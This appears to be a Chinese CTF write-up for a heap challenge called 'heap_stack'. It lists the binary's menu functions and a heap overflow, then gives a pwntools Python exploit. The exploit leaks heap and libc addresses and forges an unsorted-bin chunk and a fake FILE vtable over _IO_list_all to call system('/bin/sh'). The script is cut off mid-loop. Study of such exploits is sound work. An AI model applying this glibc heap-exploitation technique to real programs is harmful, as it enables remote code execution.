 - push函数存在堆溢出问题申请0x1010的堆，实际得到0x20大小的chunk，并且可以写入0x1010个字节，并且它泄露了堆地址
- puuuuuush函数属于不存在溢出的声请，这里可以用来声请大小>0x1000的chunk
- pop函数是是直接实现note_num--
- show函数只能用一次，那么必然是泄露libcbase用



这里思路相对简单，直接给出exp

```c
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def push1(size,content):
	p.sendlineafter('>> ','1')
	p.sendlineafter('size?',str(size))
	p.sendafter('content?',content)	
def push2(size,content):
	p.sendlineafter('>> ','2')
	p.sendlineafter('size?',str(size))
	p.sendafter('content?',content)	
def pop():
	p.sendlineafter('>> ','3')
def show():
	p.sendlineafter('>> ','4')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def hack():
	push1(0x1010,'\x00'*0x18+p64(0xfe1))
	p.recvuntil('Malloc at  ')
	heapbase = int(p.recvuntil('.')[:-1],16) - 0x10
	push2(0x2000,'\x00')
	push1(0x10,'\x78')
	show()
	leak = u64(p.recv(8))
	libcbase =  leak - (0x7fbec8029178 - 0x7fbec7c64000)
	_IO_list_all = libcbase + libc.sym['_IO_list_all']
	system = libcbase + libc.sym['system']
	pr('heapbase',heapbase)
	pr('libcbase',libcbase)
	pr('_IO_list_all',_IO_list_all)
	pr('system',system)

	fake_vtable_addr = heapbase + 0x60 + 0xd8 + 8
	unsortedbin = '\x00'*0x10 + '/bin/sh\x00'+p64(0x61)
	unsortedbin += p64(0xdeadbeef) + p64(_IO_list_all - 0x10)
	unsortedbin += p64(0) + p64(1)
	unsortedbin = unsortedbin.ljust(0x10+0xd8,'\x00') + p64(fake_vtable_addr)
	fake_vtable = p64(0)*3 + p64(system)
	payload = unsortedbin + fake_vtable

	push1(0x1010,payload)
	p.sendlineafter('>> ','1')
	p.sendlineafter('size?','16')

	#gdb.attach(p)
	p.interactive()

while True:
	try:
		global p
		p = process('./heap_stack')
		hack()
```